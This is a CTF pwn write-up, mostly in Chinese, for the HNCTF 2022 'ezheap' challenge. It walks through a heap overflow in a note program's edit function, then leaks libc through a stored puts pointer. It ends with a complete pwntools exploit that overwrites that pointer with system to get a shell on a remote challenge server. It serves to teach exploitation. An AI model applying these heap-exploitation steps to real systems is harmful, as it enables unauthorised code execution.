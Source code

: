 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

 [[HNCTF 2022 WEEK4](https://www.nssctf.cn/problem/3104)]ezheap

`Off-By-One`|`堆溢出`|`leak_libc`

```shell
[*] '/home/bamuwe/ezheap/ezheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $checksec ./ezheap

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> 运行截图

```c
int add()
{
  __int64 v0; // rbx
  __int64 v1; // rax
  int v3; // [rsp+0h] [rbp-20h]
  signed int v4; // [rsp+4h] [rbp-1Ch]

  puts("Input your idx:");
  v3 = getnum();
  puts("Size:");
  v4 = getnum();
  if ( v4 > 0x100 )
  {
    LODWORD(v1) = puts("Invalid!");
  }
  else
  {
    heaplist[v3] = malloc(0x20uLL);
    if ( !heaplist[v3] )
    {
      puts("Malloc Error!");
      exit(1);
    }
    v0 = heaplist[v3];
    *(v0 + 16) = malloc(v4);
    *(heaplist[v3] + 32LL) = &puts;             // 预存的puts()地址，考虑泄露/更改
    if ( !*(heaplist[v3] + 16LL) )
    {
      puts("Malloc Error!");
      exit(1);
    }
    sizelist[v3] = v4;
    puts("Name: ");
    if ( !read(0, heaplist[v3], 0x10uLL) )	//限制name堆块只能输入0x10
    {
      puts("Something error!");
      exit(1);
    }
    puts("Content:");
    if ( !read(0, *(heaplist[v3] + 16LL), sizelist[v3]) )
    {
      puts("Error!");
      exit(1);
    }
    puts("Done!");
    v1 = heaplist[v3];
    *(v1 + 24) = 1;
  }
  return v1;
}
```

> 漏洞函数1_add()

```c
__int64 show()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && heaplist[v1] )
  {
    (*(heaplist[v1] + 32LL))(heaplist[v1]);		//通过调用堆上预存的puts()地址实现输出打印
    return (*(heaplist[v1] + 32LL))(*(heaplist[v1] + 16LL));
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
}
```

> 漏洞函数2_show()

```c
ssize_t edit()
{
  unsigned int v1; // [rsp+8h] [rbp-8h]
  unsigned int nbytes; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  puts("Size:");
  nbytes = getnum();
  if ( v1 <= 0x10 && heaplist[v1] && nbytes <= 0x100 )	// 只做了<=0x100的限制，可以溢出
    return read(0, *(heaplist[v1] + 16LL), nbytes);
  puts("Error idx!");
  return 0LL;
}
```

> 漏洞函数3_edit()

```python
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)
```

> 交互函数

程序逻辑：

1. `add()`时会添加两个`chunk`，`chunk1`存贮`name`，正文`chunk`和`puts()`的地址，即`0x0a27656d616e2762(name)`，`0x0000561b7af6c040`，`0x00007f483b7215d0(puts_addr)`另`chunk2`存贮`text`

   ![image-20240428142620769](./../../AppData/Roaming/Typora/typora-user-images/image-20240428142620769.png)

2. `show()`会调用`chunk1`中预存的`puts()`构造`puts(chunk2_addr)`实现打印输出

   ![image-20240428143340351](./../../AppData/Roaming/Typora/typora-user-images/image-20240428143340351.png)

利用思路：

1. `edit()`宽松的输入检测，可以更改堆块大小，构造`fake_chunk`

   ```python
   add(0,0x18,b'0'*0x10,b'0000')
   add(1,0x10,'1111',b'1111')
   add(2,0x10,'2222',b'2222')
   
   edit(0,0x20,b'A'*0x18+p8(0x81))
   show(0)
   free(1)
   ```

   ![image-20240428144611332](./../../AppData/Roaming/Typora/typora-user-images/image-20240428144611332.png)

   > 成功构造出fake_chunk

2. 可以构造堆溢出，溢出`\x00`截断，填充并泄露`puts()`的地址

   ```python
   add(4,0x70,'4444',b'4'*(0x20-1)+b'-')			#申请回fake_chunk，填充堆空间，添加标志位
   show(4)											#查看堆上内容
   io.recvuntil(b'-')
   puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
   # lib = LibcSearcher('puts',puts_addr)			#remote
   lib_base = puts_addr-lib.sym['puts']
   sys_addr = lib_base+lib.sym['system']
   # lib_base = puts_addr-lib.dump('puts')
   # sys_addr = lib_base+lib.dump('system')
   success('&system=>{}'.format(hex(sys_addr)))
   success('&puts=>{}'.format(hex(puts_addr)))
   ```

   ![image-20240428151019745](./../../AppData/Roaming/Typora/typora-user-images/image-20240428151019745.png)

3. 通过`edit()`修改，利用堆溢出修改其他`chunk`

   ```python
   edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
   ```

   ![image-20240428151224698](./../../AppData/Roaming/Typora/typora-user-images/image-20240428151224698.png)

   > 修改后，可以与上面比较一下

4.利用`show()`得到`shell`

```python
show(2)
```

___

exp:

```python
#Ubuntu GLIBC 2.23-0ubuntu11.3

from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
elf = ELF('./ezheap')
# io = gdb.debug('./ezheap')
io = remote('node5.anna.nssctf.cn',26829)
# lib = ELF('/home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)

add(0,0x18,b'0'*0x10,b'0000')
add(1,0x10,'1111',b'1111')
add(2,0x10,'2222',b'2222')

edit(0,0x20,b'A'*0x18+p8(0x81))
show(0)
free(1)
add(4,0x70,'4444',b'4'*(0x20-1)+b'-')
show(4)
io.recvuntil(b'-')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib = LibcSearcher('puts',puts_addr)
lib_base = puts_addr-lib.dump('puts')
sys_addr = lib_base+lib.dump('system')
success('&system=>{}'.format(hex(sys_addr)))
success('&puts=>{}'.format(hex(puts_addr)))

edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
show(2)

io.interactive()
```



